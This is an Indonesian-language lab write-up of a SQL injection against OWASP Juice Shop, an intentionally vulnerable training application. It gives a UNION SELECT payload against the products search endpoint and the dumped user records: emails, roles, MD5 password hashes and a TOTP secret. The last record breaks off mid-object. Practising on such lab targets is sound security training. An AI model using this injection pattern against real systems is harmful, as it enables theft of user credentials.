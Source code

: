 # Juice-Shop: User Credentials

## Step 1: Initial Payload

Pada tahap pertama dilakukan SQL Injection untuk mendapatkan data sensitif dari tabel **Users**.

```
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": 2,
      "description": 3,
      "price": 4,
      "deluxePrice": 5,
      "image": 6,
      "createdAt": 7,
      "updatedAt": 8,
      "deletedAt": null
    }
  ]
}
```
Step 2: Extracted User Data
Hasil SQL Injection memperlihatkan data akun dari tabel Users, termasuk email, role, dan password hash.


```
{
  "id": "hello",
  "name": "admin@juice-sh.op",
  "description": "0192023a7bbd73250516f069df18b500",
  "price": "admin",
  "deluxePrice": "",
  "image": "",
  "createdAt": "",
  "updatedAt": "",
  "deletedAt": 1
},
{
  "id": "j0hNny",
  "name": "john@juice-sh.op",
  "description": "00479e957b6b42c459ee5746478e4d45",
  "price": "customer",
  "deluxePrice": "",
  "image": "",
  "createdAt": "assets/public/images/uploads/default.svg",
  "updatedAt": "",
  "deletedAt": 18
},
{
  "id": "wurstbrot",
  "name": "wurstbrot@juice-sh.op",
  "description": "9ad5b8492bbe528583e128d2a8941de4",
  "price": "admin",
  "deluxePrice": "",
  "image": "assets/public/images/uploads/defaultAdmin.png",
  "updatedAt": "IFtXES3SPOEYVURT2MYRG152TKJ4HC3KH",
  "deletedAt": 10
}
```
Step 3: SQL Injection Endpoint
Payload SQL Injection yang digunakan:


```
https://juice-shop.herokuapp.com/rest/products?q=')%20UNION%20SELECT%20username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,id%20FROM%20Users--
```

Hasilnya menampilkan kredensial user seperti berikut:
```
{
  "id": "evmrox",
  "name": "ethereum@juice-sh.op",
  "description": "2c17c6937771ee3048ae34ddb380c5ec",
  "price":
}
```